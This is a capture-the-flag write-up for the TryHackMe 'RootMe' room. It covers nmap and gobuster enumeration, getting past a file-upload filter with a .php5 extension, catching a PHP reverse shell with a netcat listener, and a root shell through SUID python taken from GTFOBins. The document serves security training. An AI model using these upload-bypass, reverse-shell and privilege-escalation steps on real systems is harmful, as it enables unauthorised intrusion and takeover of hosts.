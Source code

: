 ## root Me - Try Hack Me

## 1. Overveiw

**NMAP**\
**Gobuster**\
**PHP-Rev-Shell**\
**File upload bypass**\
**SUID Priv Esc (GTFOBins)**\
[Link to the machine](https://tryhackme.com/room/rrootme)

## 2. Tasks
### 2.1 Scan the machine, how many ports are open?

```sh
export IP=10.10.161.239
```

First we do a **NMAP** scan:
```sh
nmap -sV -sC -oN nmap/initial $IP
```

This is the output of the nmap scan:
```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-22 04:26 EDT                                                                                                                                                                           
Nmap scan report for 10.10.161.239                                                                                                                                                                                                         
Host is up (0.086s latency).                                                                                                                                                                                                               
Not shown: 998 closed ports                                                                                                                                                                                                                
PORT   STATE SERVICE VERSION                                                                                                                                                                                                               
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                                                          
| ssh-hostkey:                                                                                                                                                                                                                             
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.64 seconds
```


### 2.2 What version of Apache are running?
Apache 2.4.29

### 2.3 What service is running on port 22?
ssh

### 2.4 Find directories on the web server using the GoBuster tool.
To run a **gobuster** scan we do the following:
```sh
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log
```

The output of the gobuster is as follows:
```sh
===============================================================
2020/09/22 04:34:51 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
Progress: 30518 / 220561
```

### 2.5 What is the hidden directory?
`/panel`


## 3 user.txt

We got some hints to upload a php rev shell. The gobustercan showed that we can access the `/uploads/` tab.
Possibly we can get remote code execution with uploading a php script. We try to upload a `.php` file and we get an error.
So we can try multiple things, like changing the magic bytes so the php looks like a png or jpg file. We ended up using the `.php5` extension.
After a lot of testing, this was the link we followed in order to figure it out. I know Burp also has a possible way of fuzzing the extensions.

After uploading the script we set a netcat listener to the same port as specified in the php-reverse shell:

```sh
nc -lnvp 9001
```

Then we request the file in with this [URL](http://10.10.161.239/uploads/php-rev-shell.php5)

And we catch the shell back to us. We can now make it a little better with python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we use `ctr+z` to background the shell. And on our own machine we type:

```sh
stty raw -echo
fg
```

This should spwan a better shell to work with.
In order to find the user.txt file, we can simply use the `find` command:

```sh
find . -name "user.txt" 2>/dev/null
```

## 4 root.txt

Here we have to look for some SUID misconfigs on the box.


### 4.1 Search for files with SUID permission, which file is weird?
use this [link](https://www.thegeekdiary.com/linux-unix-how-to-find-files-which-has-suid-sgid-set/) in order to search for files with root permission. The answer to the weird file is:
 
`/usr/bin/python`

### 4.2 Find a form to escalate your privileges.

We use the hint given from the 4.1 section, and go to GTFOBins in order to find python:
https://gtfobins.github.io/gtfobins/python/

Under *SUID* there is a section covering how to privesc if python has SUID permiussions.
If we execute this command we can spawn a root shell:

```python
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

And we get a root shell!
Then we use `find` to check where the root.txt file is:

```sh
find . -name "root.txt" 2>/dev/nul
```

